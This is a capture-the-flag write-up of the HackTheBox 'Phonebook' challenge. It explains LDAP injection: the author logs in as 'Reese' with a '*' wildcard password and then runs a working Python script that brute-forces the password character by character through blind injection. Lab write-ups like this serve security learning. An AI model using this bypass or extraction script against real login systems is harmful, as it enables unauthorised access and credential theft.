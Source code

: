 # HackTheBox Phonebook
## Reconnaisance
After booting up the challenge, we are greeted with the following login screen:
![Login screen](/HTB:Phonebook/images/login.PNG)
This screen reveals some interesting information. First of all, the website allows for logging in with workstation usernames and passwords. It is thus most likely connected to Active Directory in some way. Second, there is most likely a user named Reese.

My first idea here was to use dirbuster to see if there were any files exposed that would reveal workstation credentials. However, my dirbuster scan did not result in any interesting files. Instead, I went researching what technology could be behind the AD login to see what it is that we are attacking. My search resulted in the following two forum posts:

![Using active directory to authenticate users on intranet site](https://stackoverflow.com/questions/17773643/using-active-directory-to-authenticate-users-on-intranet-site)

![What is it called when you can log into multiple workstations with one username and password]([https://pages.github.com/](https://askubuntu.com/questions/727504/what-is-it-called-when-you-can-log-into-multiple-workstations-with-one-username))

These posts revealed that we are most likely looking at an LDAP login. Searching for LDAP vulnerabilities result in tons of pages about LDAP injection including an ![OWASP LDAP Injection](https://owasp.org/www-community/attacks/LDAP_Injection) page. At this point I spent some time reading up on LDAP injection, and found a nice ![PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/LDAP%20Injection/README.md) resource. This page describes in detail how LDAP injection works, so if it is a new topic for you as well I highly suggest reading up on this. 

## LDAP injection
To summarize, LDAP injection works somewhat similar to SQL injection. The username and password are put into a query that is evaluated. Interestingly, the queries can allow wildcards with *. As we don't have the code running and thus don't (yet) know what the query looks like, lets try using a wildcard *.

Remember that at the start of the challenge we identified the user Reese. We can try to login using the username Reese, and as password we can use *. This works! We land on a page that seems to be the actual phonebook. We can search through the phonebook on this page, which results in some names with email addresses and phone numbers. However, there is nothing that immediately looks like it would contain a flag.

![Phonebook](/HTB:Phonebook/images/phonebook.PNG)

Here I got stuck for a bit, as it was not clear what we should attack next to get the flag for the challenge. I read through the ![PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/LDAP%20Injection/README.md) page again, and realised we might want to try blind exploitation. This allows us to brute force the password one by one, whereas previously we just bypassed the password altogether. This allows us to figure out the password, which will hopefully be the flag for the challenge. We can test if Reese's password contains the flag by logging in with the username Reese, and password HTB*. This will be successful if the password starts with HTB, indicating it is a flag. Luckily, this works!

Bruteforcing the password by hand will take quite a lot of work, especially considering flags often contain both uppercase and lowercase letters, as well as numbers and some other characters. Let's thus create a script for this. This script should brute force character by character, and add the character to the password if the login succeeds. Testing the login by hand reveals that both successful and unsuccessful logins result in a redirect (HTTP status code 302), but a successful login redirects to / and an unsuccessful one redirects to /login?message=Authentication%20failed. 

Below is the Python script I created to extract the flag:

```
import requests
import string

TARGET_URL = "http://<IP>:<PORT>" # Change to actual IP and PORT
LOGIN_PATH = "/login"
USERNAME = "Reese"
PASSWORD = ""

CHARACTER_SET = string.ascii_letters + string.digits + '_-{}!'


def check_password(username, password):
    login_url = f"{TARGET_URL}{LOGIN_PATH}"
    data = {
        "username": username,
        "password": password
    }
    response = requests.post(login_url, data=data, allow_redirects=False)
    redirect_location = response.headers.get('Location')
    if redirect_location == "/":
        return True
    else:
        return False



while True:
    for char in CHARACTER_SET:
        current_guess = PASSWORD + char
        print(f"[*] Progress: {current_guess}", end='\r')
        if check_password(USERNAME, current_guess + "*"):
            PASSWORD += char
            break
    if char == "}":
        break
    
print(f"\n[*] Found password: {PASSWORD}")
```
